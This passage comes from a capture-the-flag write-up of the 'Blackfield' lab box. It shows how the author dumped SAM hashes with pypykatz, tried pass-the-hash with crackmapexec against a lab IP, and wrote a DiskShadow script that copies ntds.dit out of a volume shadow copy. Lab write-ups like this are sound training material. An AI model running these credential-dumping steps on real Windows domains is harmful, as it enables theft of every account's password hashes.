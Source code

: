 > **Attacker Machine**:

```bash
file sam system
pypykatz registry --sam sam system
crackmapexec smb 10.10.10.192 -u 'Administrator' -H '67ef902eae0d740df6257f273de75051'    # :(
```

<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I think my mistake is that <ins>I'm performing a dump of the hashes but of the system, and I would have to look for those of the **Domain Controller**</ins>. So I turn again to the vast knowledge that exists on the **Internet** and now I look for the way to dump the hashes but from a **Domain Controller** and I find a resource that has all the information I need [“Dumping Domain Password Hashes”](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/){:target="_blank"}. Now I understand that I need the **NTDS.dit** file and there are several ways to get it, for this box I was recommended in the community to use the **DiskShadow** binary. I only have to use **DiskShadow** in script mode, so I have to create a **.txt** file with the commands that will need to create a **new volume shadow copy** (so extract from this volume the **NTDS.dit**), I transfer it to the victim machine and run the binary passing the file, but unfortunately I get an error when reading it. What is happening is that when loading it is deleting every last character of each line of the file, so by leaving a blank space and **DiskShadow** can perform all commands, but when trying to copy **NTDS.dit** manually does not allow me to do so. But if I look at the volume **w**, the file does exist, so it is a permissions error not being able to transfer it.

> **[NTDS.DIT](https://medium.com/@harikrishnanp006/understanding-ntds-dit-the-core-of-active-directory-faac54cc628a){:target="_blank"}**: stands for **New Technology Directory Services Directory Information Tree**. It serves as the primary database file within **Microsoft’s Active Directory Domain Services** (**AD DS**). Essentially, **NTDS.DIT** stores and organizes all the information related to objects in the domain, including users, groups, computers, and more. It acts as the backbone of **Active Directory**, housing critical data such as user account details, **passwords**, group memberships, and other object attributes.

> **Attacker Machine**:

```bash
nvim diskshadow.txt
```

> **diskshadow.txt**

```txt
set context persistent nowriters
add volume c: alias oldboy
create
expose %oldboy% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\users\svc_backup\desktop\ntds.dit
delete shadows volume %oldboy%
reset
```
